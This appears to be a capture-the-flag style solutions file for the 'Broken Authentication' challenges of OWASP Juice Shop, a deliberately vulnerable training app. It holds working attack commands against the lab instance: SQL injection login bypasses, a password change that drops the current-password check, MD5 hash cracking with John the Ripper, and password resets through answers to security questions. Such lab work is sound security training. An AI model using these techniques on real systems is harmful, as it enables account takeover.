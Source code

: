 # Broken Authentication

## Bjoern's Favorite Pet

Reset the password of Bjoern's OWASP account via the Forgot Password mechanism

```bash
# from db
bjoern@owasp.org

# Zaya
https://twitter.com/bkimminich/status/1441659996589207555
```

## Change Bender's Password

Change Bender's password into `slurmCl4ssic` without using SQL Injection or Forgot Password

```bash
TOKEN="<REDACTED>"

# remove parameter "current"
http -A bearer -a ${TOKEN} "juiceshop:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic"
```

## GDPR Data Erasure

Log in with Chris' erased user account

```bash
http http://juiceshop:3000/rest/user/login email="chris.pike@juice-sh.op'--"
```

## Login Bjoern

Log in with Bjoern's Gmail account

```javascript
// search for "oauth" in main.js
this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe(
o => {
  const a = btoa(o.email.split('').reverse().join(''));
  this.userService.save({
    email: o.email,
    password: a,
    passwordRepeat: a
  }).subscribe(() => {
    this.login(o)
  }, () => {
    this.login(o)
  })
}

// web console
btoa("bjoern.kimminich@gmail.com".split('').reverse().join(''))

// email: bjoern.kimminich@gmail.com
// password: bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=
```

## Password Strength

* [John the Ripper step-by-step tutorials for end-users](https://openwall.info/wiki/john/tutorials)

<!--

https://4n3i5v74.github.io/posts/cheatsheet-john-the-ripper
https://4n3i5v74.github.io/posts/tryhackme-john-the-ripper

-->

Log in with the administrator's user credentials without previously changing them or applying SQL Injection

```bash
# email: admin@juice-sh.op
# password (hash): 0192023a7bbd73250516f069df18b500

# MD5
hashid 0192023a7bbd73250516f069df18b500

# download wordlist
curl -sSL https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz | tar -xzf -

# crack
echo "admin@juice-sh.op:0192023a7bbd73250516f069df18b500" > juiceshop.hash
john --wordlist=rockyou.txt --format=raw-md5 juiceshop.hash

http http://juiceshop:3000/rest/user/login email="admin@juice-sh.op" password='admin123'
```

## Reset Bender's Password

Reset Bender's password via the Forgot Password mechanism

```bash
# email
# bender@juice-sh.op

# security question
# "Company you first work for as an adult?"

# https://en.wikipedia.org/wiki/Bender_(Futurama)
# https://futurama.fandom.com/wiki/Suicide_Booth

# escape the apostrophe with a backslash in addition to wrapping it in a set of single quotes: '\''
curl -sS http://juiceshop:3000/rest/user/reset-password \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"bender@juice-sh.op","answer":"Stop'\''n'\''Drop","new":"12345","repeat":"12345"}'
```

## Reset Bjoern's Password

Reset the password of Bjoern's internal account via the Forgot Password mechanism

```bash
# email
# bjoern@juice-sh.op

# security question
# "Your ZIP/postal code when you were a teenager?"

# https://www.facebook.com/bjoern.kimminich
# Uetersen has ZIP code 25436

# (from solution ???)
# https://www.alte-postleitzahlen.de/uetersen
# West-2082
```

## Reset Jim's Password

Reset Jim's password via the Forgot Password mechanism

```bash
# crack: ncc-1701
# "jim@juice-sh.op:e541ca7ecf72b8d1286474fc613e5e45"

# address
# "Room 3F 121, Deck 5, USS Enterprise, 1701, Space"

# security question
# "Your eldest siblings middle name?"

# https://en.wikipedia.org/wiki/James_T._Kirk
# George Samuel Kirk (brother)
# >>> Samuel
```

## Two Factor Authentication

Solve the 2FA challenge for user "wurstbrot"

```bash
# use sql injection to skip the password
# email: "wurstbrot@juice-sh.op'--"
# password: "foo"

# setup 2FA manually on the phone
# totpSecret: IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH
```

